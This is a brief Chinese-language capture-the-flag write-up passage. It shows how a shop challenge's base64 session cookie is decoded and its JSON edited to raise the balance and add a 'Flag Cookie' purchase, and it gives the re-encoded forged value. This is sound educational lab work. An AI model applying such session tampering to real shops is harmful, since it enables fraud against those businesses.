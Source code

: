 买完显示还剩 $49, 说明买成功了, 包里只有商品 id, 唯一可疑的是这个 session, 拿去 base64 解码一下:

![7-3.png](7-3.png)

再买两个一样的, 抓包解码一下发现变成了: `{"money": 47, "history": ["Yummy chocolate chip cookie", "Yummy chocolate chip cookie", "Yummy chocolate chip cookie"]}`

接下来改包:

```json
{"money": 1047, "history": ["Yummy chocolate chip cookie", "Yummy chocolate chip cookie", "Yummy chocolate chip cookie","Flag Cookie"]}
eyJtb25leSI6IDEwNDcsICJoaXN0b3J5IjogWyJZdW1teSBjaG9jb2xhdGUgY2hpcCBjb29raWUiLCAiWXVtbXkgY2hvY29sYXRlIGNoaXAgY29va2llIiwgIll1bW15IGNob2NvbGF0ZSBjaGlwIGNvb2tpZSIsIkZsYWcgQ29va2llIl19
```

现在就可以买了:

![7-4.png](7-4.png)
